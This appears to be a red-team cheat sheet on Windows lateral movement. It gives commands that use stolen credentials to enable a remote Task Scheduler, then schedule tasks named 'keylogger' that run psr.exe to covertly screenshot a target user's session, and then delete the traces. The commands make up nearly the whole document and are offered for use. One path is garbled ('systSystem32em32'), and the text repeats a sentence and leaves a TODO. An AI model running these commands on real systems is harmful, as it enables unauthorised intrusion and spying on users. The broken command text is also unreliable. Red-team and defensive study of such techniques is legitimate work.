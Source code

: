 # Living off the Land

Search Tag(s): #lateral-movement #schedule-task #windows

## 01 - Manual

> [!IMPORTANT] Conditions
> Ensure the `Task Scheduler` is running. Here are the commands. Here are the commands to enable it.

```
C:\> net.exe use \\<IP>\IPC$ /user:<username> <password>
sc.exe \\<IP> config Schedule start= auto
sc.exe \\<IP> start Schedule
```

TODO: Fill this info

## 02 - Scenarios

Taking screenshots via **Living off the Land (LofL)**.

```
C:\> net.exe time \\<IP>

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock { Get-Date }

C:\> schtasks.exe /create /tn "keylogger" /tr "C:\Windows\System32\psr.exe /start /gui 0 /output C:\path\to\file.zip" /sc once /st 00:00 /it [/ru <DOMAIN>\<username>] [/rp <password>] /s <target_IP>

C:\> schtasks.exe /run /tn "keylogger" [/ru <DOMAIN>\<username>] [/rp <password>] /s <IP>
```

Create schedule task to stop taking screenshots.

```
C:\> schtasks.exe /create /tn "stop_keylogger" /tr "C:\Windows\systSystem32em32\psr.exe /stop" /sc once /st 00:00 /it [/ru <DOMAIN>\<username>] [/rp <password>] /s <target_IP>

C:\> schtasks.exe /run /tn "stop_keylogger" [/ru <DOMAIN>\<username>] [/rp <password>] /s <IP>
```

Delete schedule tasks.

```
C:\> schtasks.exe /delete /f /tn "keylogger" /s <IP>

C:\> schtasks.exe /delete /f /tn "stop_keylogger" /s <IP>
```

Confirm schedule tasks are removed.

```
C:\> schtasks.exe /query /tn "keylogger" /fo List /v /s <IP>

C:\> schtasks.exe /query /tn "stop_keylogger" /fo List /v /s <IP>
```

---
## References

### LOFLCAB

- [LOFLCAB: `schtasks.exe`](https://lofl-project.github.io/loflcab/Binaries/schtasks/)

- [LOFLCAB: `net.exe`](https://lofl-project.github.io/loflcab/Binaries/net/)

### evilcomrade

- [evilcomrade: Windows Lateral Movement Fu](https://1evilcomrade.blogspot.com/2017/11/windows-lateral-movement-fu.html)

### Riccardo Ancarani

- [Riccardo Ancarani: Red Team Adventures - Lateral Movement Windows and Active Directory](https://riccardoancarani.github.io/2019-10-04-lateral-movement-megaprimer/)
